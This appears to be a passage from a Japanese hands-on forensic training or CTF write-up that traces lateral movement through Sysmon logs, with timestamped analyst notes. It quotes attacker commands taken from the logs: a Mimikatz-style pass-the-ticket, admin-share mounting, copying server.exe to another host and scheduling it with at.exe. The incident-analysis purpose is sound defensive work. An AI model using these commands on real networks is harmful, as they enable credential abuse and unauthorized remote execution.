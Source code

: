 #### ◇ わからんコマンドの実行
* 2019/11/7  16:09:09

```
cmd /c "klist purge"
```

#### ◇ mz.exeによるPtT
* 2019/11/7  16:09:37 mz.exeによるPtT
```
cmd /c "C:\Intel\Logs\mz.exe "kerberos::ptt C:\Intel\Logs\500.kirbi" exit"
```

#### ◇ 2回目のWin7_64JP_03の使用
* 2019/11/7  16:09:55 2回目のWin7_64JP_03の使用
```
cmd /c "net use \\Win7_64JP_03\c$"
```

#### ◇ 2回目のWin7_64JP_03へのserver.exeの設置
* 2019/11/7  16:10:13 2回目のWin7_64JP_03へのserver.exeの設置
```
cmd /c "copy C:\Intel\Logs\server.exe \\Win7_64JP_03\c$\Intel\Logs\server.exe"
```
* ２回目なので1回目は失敗したと考えられる
* PtTによって得たチケットの権限で実行できるようになったと思われる。

#### ◇ z.batの実行
* 2019/11/7  16:12:53 z.batの実行
```
cmd /c "C:\Intel\Logs\z.bat"
```

##### z.batによるWin7_64JP_03でのserver.exeの実行
* 2019/11/7  16:12:53 z.batによるWin7_64JP_03でのserver.exeのタスクスケジュール
```
at.exe  \\Win7_64JP_03 16:17 cmd /c "C:\Intel\Logs\server.exe"
```
* atコマンドを利用しているのでタスクが`16:17`スケジュールされたと分かる

## 
198.51.100.101
不審WEBサーバ
(anews-web.co)

# 2 ハンズオン２
## (1) 侵害範囲の調査
### ① 方針
* sysmonより、Win7_64JP_01侵害時刻(15:44:30)近くのログを調べる
### ② 実行
#### ◇ Win7_64JP_01への侵害
![](jpcertCTF/images/横展開１.png)
* 2019/11/7  15:49:21 Win7_64JP_01への侵害
* `EXAMPLE\maebashi.gunma`ユーザにより実行されている
* q.batの中のコマンドのようだ
* 次に`maebashi.gunma`ユーザ及び`q.bat`の実行を追う
#### ◇ dwm.exeによるq.batの実行
![](jpcertCTF/images/qバッチ実行.png)
* 2019/11/7  15:49:21 dwm.exeによってq.batが実行されていた。
* dwm.exeについて追跡する

